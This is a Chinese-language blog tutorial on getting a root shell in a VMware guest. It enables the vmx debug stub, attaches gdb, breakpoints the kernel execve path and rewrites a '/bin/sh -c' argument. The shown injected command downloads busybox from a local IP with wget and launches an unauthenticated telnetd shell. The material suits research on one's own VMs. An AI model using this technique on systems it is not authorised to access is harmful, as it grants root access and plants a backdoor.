

## 通过虚拟机调试获取Root Shell

### 参考文章 

https://wzt.ac.cn/2021/05/12/vm_shell/ 一些虚拟机获取 shell 的方法

### 前言

在参考文章中提到一种通过虚拟机调试的方式获取虚拟机root shell。<br>
不过用参考文章中的方法得到root shell时，系统是没有完全初始化的，网络也没有起来，很不方便，于是本文在参考文章的基础上进行了一些改进。<br>

### **如何对虚拟机进行调试**

vmware workstation 提供了虚拟机调试接口，官方文档指出只需要在虚拟机的 vmx 文件中添加以下选项，即可在外部使用 gdb 附加到虚拟机上，从而实现对虚拟机的调试。<br>

```
debugStub.listen.guest64 = "TRUE"
debugStub.listen.guest64.remote = "TRUE"
debugStub.port.guest64 = "12347"
debugStub.listen.guest32 = "TRUE"
debugStub.listen.guest32.remote = "TRUE"
debugStub.port.guest32 = "12348"
```

目标虚拟机是64位系统，就使用debugStub.port.guest64作为gdb远程调试端口。<br>
目标虚拟机是32位系统，就使用debugStub.port.guest32作为gdb远程调试端口。<br>
其他虚拟机软件VirtualBox,Qemu等等应该也有类似的方法进行虚拟机调试，暂未具体研究。<br>
在虚拟机的 vmx 文件中添加选项后，启动虚拟机，待虚拟机完全启动进入系统后，执行gdb命令远程附加。<br>

```
# gdb
GNU gdb (Ubuntu 9.2-0ubuntu1~20.04.1) 9.2
Copyright (C) 2020 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
(gdb) target remote 0:12347
Remote debugging using 0:12347
warning: No executable has been specified and target does not support
determining executable automatically.  Try using the "file" command.
0xffffffff819b3eae in ?? ()
(gdb)
```

### 获取Root Shell基本思路

在系统运行时，肯定会执行system/exec类函数，底层都是调用系统内核函数。<br>
不管哪个内核exec系统调用都会调用_do_execve_file_isra_45函数。<br>
<br>
所以我们在内核_do_execve_file_isra_45函数处下断点，断下后更改函数参数，注入我们自己的命令，即可获取Root Shell.<br>

#### 一些技巧

1.定位_do_execve_file_isra_45函数位置<br>
a)有内核elf文件时<br>
一般内核elf文件中是没有符号的，如果有符号就直接可以定位_do_execve_file_isra_45函数位置。<br>
没有符号时，可以通过HOME=/字符串定位run_init_process函数，进而定位_do_execve_file_isra_45函数位置。<br>
<br>
<br>
b)无内核elf文件时<br>
暂未研究成功，先搁置。<br>
2.断点技巧<br>
目标是找到一个参数是/bin/sh -c xxx的调用，这样就可以直接修改xxx的值进行命令修改，可以在_do_execve_file_isra_45函数处下条件断点过滤参数。<br>

```
break *0xffffffff811c2fb0 if *(*(long long*)($rsi))==0x6e69622f

Thread 1 hit Breakpoint 1, 0xffffffff811c2fb0 in ?? ()
(gdb) x/6gx $rcx
0x7ffd6c4acf10: 0x00007f3463d22ae9      0x00007f3463d22ae1
0x7ffd6c4acf20: 0x000000000066c0a0      0x0000000000000000
0x7ffd6c4acf30: 0x00007f3464833f82      0x00007ffd6c4acfc0
(gdb) x/s 0x000000000066c0a0
0x66c0a0:       "/usr/bin/lsb_release -sd 2>/dev/null"
(gdb)

修改对应的命令

set {char [113]} 0x000000000066c0a0 = "cd /tmp;/bin/busybox wget http://192.168.248.1:8000/busybox -O telnetd;chmod +x telnetd;./telnetd -p 22222 -l sh"

继续执行即可获取一个root shell
```

#### End
读者有责任遵守其所在国家或地区的所有法律。<br/>
作者不对使用本博客任何文章中提到的任何内容所造成的任何损害负责。<br/>
本博客全部文章遵循 CC-BY-SA-4.0 协议。<br/>
https://creativecommons.org/licenses/by-sa/4.0/<br/><br/>
欢迎关注我的微信公众号！<br/>
